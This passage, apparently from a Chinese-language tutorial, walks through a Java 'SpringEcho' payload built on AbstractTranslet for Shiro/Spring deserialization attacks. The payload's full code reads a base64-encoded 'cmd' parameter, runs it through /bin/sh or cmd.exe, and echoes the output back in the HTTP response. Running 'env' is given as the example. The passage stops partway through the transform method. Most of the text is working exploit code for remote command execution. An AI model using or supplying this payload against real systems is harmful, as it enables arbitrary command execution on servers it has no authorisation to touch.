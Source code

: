   ```java
  org.springframework.web.context.request.RequestAttributes ReqAttrs =
      org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
  javax.servlet.http.HttpServletRequest request =
      ((org.springframework.web.context.request.ServletRequestAttributes)
       ReqAttrs).getRequest();
  javax.servlet.http.HttpServletResponse response =
      ((org.springframework.web.context.request.ServletRequestAttributes)
       ReqAttrs).getResponse();
  // 读取请求参数
  String tc = request.getParameter("cmd");
  ```

  ```java
  // 将结果写入响应
  response.getWriter().write(res.toString());
  response.getWriter().flush();
  response.getWriter().close();
  ```

- 运行env命令

  首先获取cmd的参数值`String tc = request.getParameter("cmd");`

  然后进行解码`String p = org.apache.shiro.codec.Base64.decodeToString(tc);`得到env

  接下来将运行env的命令写入response中

完整代码

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
public class SpringEcho1 extends AbstractTranslet {
    public SpringEcho1() throws Exception {
        try {
            org.springframework.web.context.request.RequestAttributes ReqAttrs =
                    org.springframework.web.context.request.RequestContextHolder.getRequestAttributes();
            javax.servlet.http.HttpServletRequest request =
                    ((org.springframework.web.context.request.ServletRequestAttributes)
                            ReqAttrs).getRequest();
            javax.servlet.http.HttpServletResponse response =
                    ((org.springframework.web.context.request.ServletRequestAttributes)
                            ReqAttrs).getResponse();
            String tc = request.getParameter("cmd");
            if (tc != null && !tc.isEmpty()) {
                String p = org.apache.shiro.codec.Base64.decodeToString(tc);
                String[] cmd =
                        System.getProperty("os.name").toLowerCase().contains("windows") ? new String[]
                                {"cmd.exe", "/c", p} : new String[]{"/bin/sh", "-c", p};
                String res = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
                response.getWriter().write(res);
                response.getWriter().flush();
                response.getWriter().close();
            }
        } catch (Exception e) {
            e.getStackTrace();
        }
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws
            TransletException {
```